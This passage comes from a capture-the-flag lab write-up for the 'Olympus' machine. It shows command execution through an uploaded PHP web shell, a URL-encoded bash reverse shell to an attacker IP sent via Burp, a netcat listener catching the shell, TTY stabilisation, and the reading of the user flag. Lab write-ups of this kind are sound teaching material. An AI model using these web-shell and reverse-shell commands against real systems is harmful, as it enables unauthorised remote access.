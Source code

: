 Now in order to verify code execution navigate to: `http://chat.olympus.thm/uploads/c892fb409f85b25008b9d49da321df68.php?cmd=id` and the output is: `uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)`.

Now we are going to get a reverse shell using Burp Suite. We Intercept the previous request, and execute a bash reverse shell like the following: `bash -c 'exec bash -i &>/dev/tcp/10.8.200.50/443 <&1'`, but it has to be URL-encoded.

The request in Burp should look like this:

```shell
GET /uploads/c892fb409f85b25008b9d49da321df68.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.8.200.50/443+<%261' HTTP/1.1
Host: chat.olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=lh3nk5s6r2577v8flvr9td45b6
Upgrade-Insecure-Requests: 1


```

Open a netcat listener and we have reverse shell as `www-data`.

```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.200.50] from (UNKNOWN) [10.10.203.170] 58780
bash: cannot set terminal process group (777): Inappropriate ioctl for device
bash: no job control in this shell
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ads$ python3 -c 'import pty;pty.spawn("/bin/bash")'            
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ ^Z
zsh: suspended  nc -lvnp 443

geobour98@kali:~$ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ export TERM=xterm-256color
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ stty rows 38 cols 111
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ whoami
www-data
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)
```

Then navigate to `/home/zeus` and open `user.flag`.

```shell
www-data@olympus:/home/zeus$ cat user.flag 
[REDACTED]
```
